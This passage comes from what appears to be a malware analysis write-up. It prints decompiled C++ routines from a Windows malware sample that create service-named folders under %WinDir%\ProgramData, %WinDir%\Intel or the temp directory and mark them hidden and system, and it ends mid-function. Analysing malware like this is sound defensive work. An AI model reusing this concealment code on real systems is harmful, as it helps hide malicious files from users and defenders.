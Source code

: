 Check the start parameters and rename can be directly from the expression to judge out, not complicated.

**create hidden data (folder)**

```C++
int __cdecl CreateHiddenData(wchar_t *p)
{
  int result; 
  __int16 wszWindowsPath[260]; 
  __int16 wszProgramData[260];
  __int16 wszServiceName[100];

  wszWindowsPath[0] = g_ComputerName;
  memset(&wszWindowsPath[1], 0, 516u);
  wszWindowsPath[259] = 0;
  wszProgramData[0] = g_ComputerName;
  memset(&wszProgramData[1], 0, 516u);
  wszProgramData[259] = 0;
  wszServiceName[0] = g_ComputerName;
  memset(&wszServiceName[1], 0, 196u);
  wszServiceName[99] = 0;
  MultiByteToWideChar(0, 0, szServiceName, -1, wszServiceName, 99);
  GetWindowsDirectoryW(wszWindowsPath, 260u);
  wszWindowsPath[2] = 0;
  swprintf(wszProgramData, aSProgramdata, wszWindowsPath);
  if ( GetFileAttributesW(wszProgramData) != INVALID_FILE_ATTRIBUTES && CreateFolder(wszProgramData, wszServiceName, p)
    || (swprintf(wszProgramData, aSIntel, wszWindowsPath), CreateFolder(wszProgramData, wszServiceName, p))
    || CreateFolder(wszWindowsPath, wszServiceName, p) )
  {
    result = 1;
  }
  else
  {
    GetTempPathW(260u, wszProgramData);
    if ( wcsrchr(wszProgramData, '\\') )
      *wcsrchr(wszProgramData, '\\') = 0;
    result = CreateFolder(wszProgramData, wszServiceName, p) != 0;
  }
  return result;
}
```

The above function eventually created **%WinDir%\ProgramData,%WinDir%\Intel** two folders and set their properties to Hidden.

```C++
int __cdecl CreateFolder(LPCWSTR lpPathName, LPCWSTR lpFileName, wchar_t *String)
{
  int result; 
  DWORD fac; 

  CreateDirectoryW(lpPathName, 0);
  if ( SetCurrentDirectoryW(lpPathName) && (CreateDirectoryW(lpFileName, 0), SetCurrentDirectoryW(lpFileName)) )
  {
    fac = GetFileAttributesW(lpFileName);
    LOBYTE(fac) = fac | FILE_ATTRIBUTE_SYSTEM|FILE_ATTRIBUTE_HIDDEN;  <<==== Note here.
    SetFileAttributesW(lpFileName, fac);
    if ( String )
      swprintf(String, aSS, lpPathName, lpFileName);
    result = 1;
  }
  else
```